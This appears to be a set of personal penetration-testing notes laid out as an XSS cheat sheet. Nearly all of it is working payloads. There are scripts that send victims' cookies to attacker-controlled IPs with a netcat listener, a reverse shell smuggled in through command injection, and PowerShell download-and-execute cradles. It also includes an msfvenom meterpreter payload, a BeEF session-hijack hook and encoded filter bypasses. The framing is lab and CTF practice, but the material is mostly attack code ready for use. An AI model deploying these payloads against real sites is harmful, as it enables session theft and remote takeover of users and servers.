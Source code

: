     https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting
	If you can execute reflected or stored .js code
	3 types: persistent/stored, reflected, DOM based
        	Stored: look for comments, reviews, user profile, guestbook, contact form, etc.
        	Reflected: search box, etc. - Need a Victim to Target w/ URL
            DOM: Setting document content - Need a Victim to Target w/ URL
                ex. https://192.168.1.129/js/vendor/lodash/perf/index.html?build="></script>;<script src="http://192.168.111.1/alert.js"></script>
	Detection:  
        <script>alert(123)</script>
        <img src='http://10.10.14.30/test.jpg' />
        <code><SCRIPT SRC=http://192.168.119.162/XXE.js></SCRIPT></code>
    Checks:
		Cheat Sheet:  https://www.jb51.net/tools/xss.htm
        	Look for unsanitized input that is displayed as output; characters to try:  < > ' " { } ;  -> Check Source Code; see how they're stored
		Try javascript code in all input boxes, username/password (if displays incorrect username), search (if results display the searched keywords) -- or URLs
            Always try editing usernames, etc. for XSS and SSTI
    *Check cookies - if HTTPOnly NOT set, steal! 
        Otherwise - use CSRF payload script.
            If you know a vulnerable endpoint - send CSRF request
                Otherwise - scrape content and look for anything interesting
	Techniques & Payloads:
		Test:  <script>alert("XSS")</script>
			<script>alert(123)</script>
		Script:  <img src="10.10.14.18/test.jpg" /> <script src="http://10.10.14.18/test.js"></script>
            Also consider loading a script that's part of the source code - to use one of the native app functions
		Steal Cookie (if Secure and HTTPOnly flags not set):
			Example 1:  <script>new Image().src="http://10.10.28.40:8000/cool.jpg?output="+document.cookie;</script> ; sudo nc -nvlp 80
			Example 2:  <script>document.location="http://10.10.14.18 username="+document.cookie;</script>
			Example 3:
				function pwn() {
				    var img = document.createElement("img");
				    img.src = "http://10.10.14.18/xss?=" + document.cookie;
				    document.body.appendChild(img);
				}
				pwn();
				<script src=http://10.10.14.18/xss.js></script>
				//Quotes typically not required
		Reverse Shell:  <img src=http://10.10.15.25/$(nc.traditional$IFS-e$IFS/bin/bash$IFS'10.10.15.25'$IFS'4444')>
		Windows Reverse Shell (if the website can run the dir command):
			Method 1:  <script>callSys("dir | powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.18:80/mini-reverse.ps1')");</script>
			Better Method:  msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.18 LPORT=4444 -f exe -o payload.exe
				<script>callSys("dir | powershell IEX(New-Object Net.WebClient).DownloadFile('http://10.10.14.18:80/payload.exe','C:/temp/payload.exe')");</script>	
		Session Hijack (upload BEEF hook): <script src="http://1.2.3.4:3000/hook.js"></script>  (copy from beef program)
    Troubleshooting & Filter Bypass Examples:  
        <img src="x` `<script>javascript:alert(1)</script>"` `>
        <script>eval(String.fromCharCode(100,111, ...))</script>
        <img src="x/><script>eval(String.fromCharCode([payload]));</script>">
        </code> <svg/onload=eval(atob(`%s`))> <code>
        Also try NodeJS filter bypasses
	If XSS works, try SSTI!!
		
